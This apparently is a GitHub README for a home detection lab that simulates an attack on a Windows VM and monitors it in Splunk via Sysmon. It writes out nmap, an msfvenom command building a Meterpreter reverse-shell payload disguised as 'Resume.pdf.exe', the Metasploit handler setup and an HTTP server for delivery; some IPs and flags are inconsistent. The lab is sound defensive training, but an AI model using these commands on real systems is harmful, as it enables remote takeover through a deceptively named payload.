 # detection-lab

Objective

The detection-lab project aimed to establish a environment for simulating and detecting cyber attacks. The main focus was to ingest and analyze logs within a Splunk. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies.

Skills Learned

- Understanding of SIEM and practical application.
- Analyzing network logs.
- Ability to generate and recognize attack signatures.
- Knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.

Tools Used

- Splunk for log ingestion and analysis.
- Splunk Universal Forwarder and Sysmon for log collecting/forwarding
- Kali Linux/Metasploit to create realistic network traffic and attack scenarios.

Network Diagram

![detection-lab](https://github.com/user-attachments/assets/df197dc4-81d7-48bd-8549-f5e0e13e41ce)

Steps

First, we need to understand the network connections in the virtual environment. The network we use when testing tools and using sandbox will be different. When analyzing malware, we should not have access to the Internet.

- Testing Tools     ---> NAT, NAT Network, Bridged
- Analyzing Malware ---> Host-Only, Internal Network/LAN Segment, Not Attached

In this lab, the lab environment was not connected to the Internet because of the creation of malware with Kali Linux and the attack on the Windows machine.

1-Installation and Setup of Virtual Machines 

- Kali Linux (attacker), Windows 10 (victim) and Ubuntu 22.04 (Splunk) were installed on VirtuelBox as virtual machines.
- As a network ‘NAT Network' was selected and static IP address was determined on each virtual machine.
- After installing virtual machines, I saw that they were reachable with the ‘ping’ command.
- Splunk Enterprise was installed on the Ubuntu machine to view logs.
- Universal Forwarder and Sysmon were installed on Windows 10 machine to send logs to Splunk.

2-Attack Scenario 

- First I did a port scan with 'nmap' and saw that RDP port 3389 was open.
  - nmap 192.168.10.100 -A -Pn 

- Secondly, I created malware with the 'msfvenom' payload. Here I chose the 'meterpreter/reverse_tcp' payload. 
  - msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.10.250 lport=4444 -f ece -o Resume.pdf.exe 

- With this malware we will obtain a 'reverse shell' and create a connection to our own machine. After logging into the msfconsole where I will execute the attack, I entered the values for the payload we selected and started the attack.
  - use exploit/multi/handler 
  - options #to see what we can configure 
  - set payload windows/x64/meterpreter/reverse_tcp 
  - set lhost 192.168.2.250 
  - set lport 4444 #this is already given 
  - exploit 

- After that, we wait for the victim machine to run the malware. For this we will create an HTTP Server on the Kali Linux machine so that the victim machine can download the malware from there. 
  - python3 -m http.server 9999 #make sure to run it in the directory where the malware is located 

3-Exploitation 
 
- First we need to deactivate Windows Security on the Windows (victim) machine. Then I connected to the 192.168.0.250:9999 server from the web browser and downloaded the malware file 'Resume.pdf.exe' and ran it. When I looked at the network connections from the cmd console, I saw that there was a TCP connection from 192.168.10.100 to 192.168.10.250. 
  - netstat -anob 

- After that, we can now connect to the Windows machine with the 'shell' command on the Kali Linux machine and enter the commands we want. 

4-Monitoring with Splunk 

- Since I have installed sysmon on the Windows (victim) machine and configured it correctly to send logs to Splunk, I can deep dive into logs. 

Note: Sysmon logs are not fully parsed by Splunk so don't forget to install Splunk Add-on for Sysmon to get more fields. 
